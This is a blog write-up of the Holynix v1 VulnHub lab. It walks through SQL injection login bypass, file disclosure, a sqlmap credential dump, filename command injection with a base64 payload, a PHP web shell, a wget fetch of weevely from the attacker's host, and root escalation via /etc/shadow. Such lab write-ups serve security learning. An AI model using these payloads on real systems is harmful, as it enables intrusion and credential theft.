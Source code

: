 ```yaml
---
layout: post
title: "Holynix: v1"
date: 2015-05-10 13:54:06 +0200
comments: true
categories: [vulnhub, holynix]
---
```

Image: [Holynix: v1](https://www.vulnhub.com/entry/holynix-v1,20/)

We set networking in Vmware Fusion as "Share with my Mac" and check the 
obtained IP address:

{% codeblock %}
/var/db/vmware:
lease 192.168.80.142 {
        starts 4 2015/04/30 16:18:54;
        ends 4 2015/04/30 16:48:54;
        hardware ethernet 00:0c:29:bc:05:de;
}
{% endcodeblock %}

Nmap output:
{% codeblock %}
root@kali32:~# nmap -sV -p- 192.168.80.142

Starting Nmap 6.47 ( http://nmap.org ) at 2015-04-27 07:16 CEST
Nmap scan report for 192.168.80.142
Host is up (0.00028s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.12 with Suhosin-Patch)
MAC Address: 00:0C:29:BC:05:DE (VMware)
{% endcodeblock %}

There is a SQL injection in the web login, we submit the following username and password: 
{% codeblock %}
test' or '1'='1
{% endcodeblock %}

Via security (ssp.php) we can disclose arbitrary file (for example /etc/passwd):
{% codeblock %}
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
dhcp:x:101:102::/nonexistent:/bin/false
syslog:x:102:103::/home/syslog:/bin/false
klog:x:103:104::/home/klog:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:105:114:MySQL Server,,,:/var/lib/mysql:/bin/false
alamo:x:1000:115::/home/alamo:/bin/bash
etenenbaum:x:1001:100::/home/etenenbaum:/bin/bash
gmckinnon:x:1002:100::/home/gmckinnon:/bin/bash
hreiser:x:1003:50::/home/hreiser:/bin/bash
jdraper:x:1004:100::/home/jdraper:/bin/bash
jjames:x:1005:50::/home/jjames:/bin/bash
jljohansen:x:1006:115::/home/jljohansen:/bin/bash
ltorvalds:x:1007:113::/home/ltorvalds:/bin/bash
kpoulsen:x:1008:100::/home/kpoulsen:/bin/bash
mrbutler:x:1009:50::/home/mrbutler:/bin/bash
rtmorris:x:1010:100::/home/rtmorris:/bin/bash
{% endcodeblock %}

With sqlmap we can dump the whole database (%40 means '@' character):
{% codeblock %}
# sqlmap -u "http://192.168.80.142/index.php?page=login.php&user_name=a&password=a&Submit_button=Submit" --dump-all
{% endcodeblock %}
{% codeblock %}
root@kali32:~/.sqlmap/output/192.168.80.142/dump# cat creds/accounts.csv
cid,upload,username,password
1,0,alamo,Ih%40cK3dM1cR05oF7
2,1,etenenbaum,P3n7%40g0n0wN3d
3,1,gmckinnon,d15cL0suR3Pr0J3c7
4,1,hreiser,Ik1Ll3dNiN%40r315er
5,1,jdraper,p1%40yIngW17hPh0n35
6,1,jjames,%40rR35t3D%40716
7,1,jljohansen,m%40k1nGb0o7L3g5
8,1,kpoulsen,wH%407ar37H3Fed5D01n
9,0,ltorvalds,f%407H3r0FL1nUX
10,1,mrbutler,n%405aHaSw0rM5
11,1,rtmorris,Myd%40d51N7h3NSA
{% endcodeblock %}

Using sqlmap --passwords parameter we got:
{% codeblock %}
database management system users password hashes:
[*] debian-sys-maint [1]:
    password hash: %2A04DDBBF6BA7B43D9B78611E125C80124644D17B8
[*] root [1]:
    password hash: %2AA69F92BBDEA591F5BB9E4A049F0C181D6DB5177E
{% endcodeblock %}

Back to the web page, there is a cookie set as 'uid=1'. We can try different
numbers, because not every user has allowed to upload file, see accounts.csv. 

We disclose transfer.php script:
{% codeblock lang:php %}
if ( $auth == 0 ) {
        echo "<center><h2>Content Restricted</h2></center>";
} else {
        if ( $upload == 1 )
        {
                $homedir = "/home/".$logged_in_user. "/";
                $uploaddir = "upload/";
                $target = $uploaddir . basename( $_FILES['uploaded']['name']) ;
                $uploaded_type = $_FILES['uploaded']['type'];
                $command=0;
                $ok=1;

                if ( $uploaded_type =="application/gzip" && $_POST['autoextract'] == 'true' ) { $command = 1; }

                if ($ok==0)
                {
                        echo "Sorry your file was not uploaded";
                        echo "<a href='?index.php?page=upload.php' >Back to upload page</a>";
                } else {
                        if(move_uploaded_file($_FILES['uploaded']['tmp_name'], $target))
                        {
                                echo "<h3>The file '" .$_FILES['uploaded']['name']. "' has been uploaded.</h4><br />";
                                echo "The ownership of the uploaded file(s) have been changed accordingly.";
                                echo "<br /><a href='?page=upload.php' >Back to upload page</a>";
                                if ( $command == 1 )
                                {
                                        exec("sudo tar xzf " .$target. " -C " .$homedir);
                                        exec("rm " .$target);
                                } else {
                                        exec("sudo mv " .$target. " " .$homedir . $_FILES['uploaded']['name']);
                                }
                                exec("/var/apache2/htdocs/update_own");
                        } else {
                                echo "Sorry, there was a problem uploading your file.<br />";
                                echo "<br /><a href='?page=upload.php' >Back to upload page</a>";
                        }
                }
        } else { echo "<br /><br /><h3>Home directory uploading disabled for user " .$logged_in_user. "</h3>"; }
}
?>
{% endcodeblock %}

As we can see from the source code, the filename is used in shell command and
we can inject malicious input. However the '/' or '\' characters are
prohibited, because in $target is stored only the value after (back)slash.

Locator (it never terminates, but confirms our finding):
{% codeblock %}
Content-Disposition: form-data; name="uploaded"; filename=";yes;"
{% endcodeblock %}

We can evade the slash restriction encoding the payload as base64 (touch /tmp/owned):
{% codeblock %}
Content-Disposition: form-data; name="uploaded"; filename=";`echo dG91Y2ggL3RtcC9vd25lZA==| base64 -d`;"
{% endcodeblock %}

There could be a problem with a bigger input ("filename too long").

Similarly we upload the following base64 payload redirected to 'b.php':
{% codeblock %}
root@kali32:/var/www# echo '<?php system($_REQUEST['cmd']); ?>' | base64
PD9waHAgc3lzdGVtKCRfUkVRVUVTVFtjbWRdKTsgPz4K
{% endcodeblock %}

We try our php shell and in the case of success, we upload weevely from our web server:
{% codeblock %}
http://192.168.80.142/b.php?cmd=id
http://192.168.80.142/b.php?cmd=wget 192.168.80.137/weevely.php.txt -O c.php
{% endcodeblock %}

{% codeblock %}
root@kali32:/var/www# weevely http://192.168.80.142/c.php 1234
{% endcodeblock %}

Note that there exists also a trivial solution, because users can upload php
shell to home directory, which can be invoked without any restriction.

If we read the discussion on web server, someone is asking about port knocking.
We download the data to our server: 
{% codeblock %}
www-data@:/etc/knockknock.d/profiles/alamo $

root@kali32:~# find .knockknock/
.knockknock/
.knockknock/192.168.80.142
.knockknock/192.168.80.142/config
.knockknock/192.168.80.142/counter
.knockknock/192.168.80.142/mac.key
.knockknock/192.168.80.142/cipher.key
{% endcodeblock %}

From the vulnerable server, we download and use knockknock too:
{% codeblock %}
root@kali32:~/.knockknock# knockknock -p 22 192.168.80.142
*** Success: knock sent.
root@kali32:~/.knockknock# ssh alamo@192.168.80.142

The authenticity of host '192.168.80.142 (192.168.80.142)' can't be established.
RSA key fingerprint is 03:73:de:c7:17:96:0b:bb:8c:8e:c7:87:9b:5b:d5:c9.
Are you sure you want to continue connecting (yes/no)?
{% endcodeblock %}

We log in as alamo / Ih@cK3dM1cR05oF7.

Because nobody has higher privileges for sudo except www-data, we use the web
account to obtain root privileges.
One way of doing this is to change using chown /etc/shadow the file permissions
to www-data, move to /tmp and change the root hash to a know one (e.g.
alamo's). Then we move the shadow file back. 

In the end we log in as root with Ih@cK3dM1cR05oF7 password:
{% codeblock %}
# uid=0(root) gid=0(root) groups=0(root)
{% endcodeblock %}
